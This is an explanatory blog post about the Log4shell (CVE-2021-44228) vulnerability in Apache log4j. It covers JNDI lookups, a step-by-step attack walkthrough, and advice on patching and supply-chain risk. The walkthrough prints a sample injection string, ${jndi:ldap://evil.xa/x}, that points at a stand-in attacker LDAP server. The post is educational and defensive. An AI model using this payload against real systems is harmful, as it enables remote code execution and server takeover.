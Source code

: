 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be publicly viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are millions of devices that rely on Java, as well as log4j, making this vulnerability widespread and diverse.

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. Lookups can be useful in the sense that they can pull data from remote resources as well as other applications if need be. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that was targeted in these attacks. A hacker can craft a special string that has a JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. It may sound difficult to do, but the exploit is quite simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the user agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could potentially set up a reverse shell on the webserver, and in doing so the hacker would then have remote control over the server. From there, the possibilities are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest security vulnerabilities that has been discovered in recent history. I liken this to the [Heartbleed vulnerability](https://www.csoonline.com/article/3223203/what-is-the-heartbleed-bug-how-does-it-work-and-how-was-it-fixed.html) that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the general public, developers will create patches for it. This makes timing a very important factor in using these exploits. The debate whether open source is better than proprietary still continues on...

The challenge with log4j (as mentioned above), which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. If you own a company, you not only have to A) identify all of your technical assets, but then B) figure out which ones are vulnerable. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want. Only time will tell.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can compromise a vendor and then work to get into the main company's network at some point.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to potentially be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials in the future. I'm willing to also bet that hackers are coming up with ways to execute this exploit through phishing via email. Please be vigilant in which emails and links/attachments you are clicking on. 

Thank you for reading!









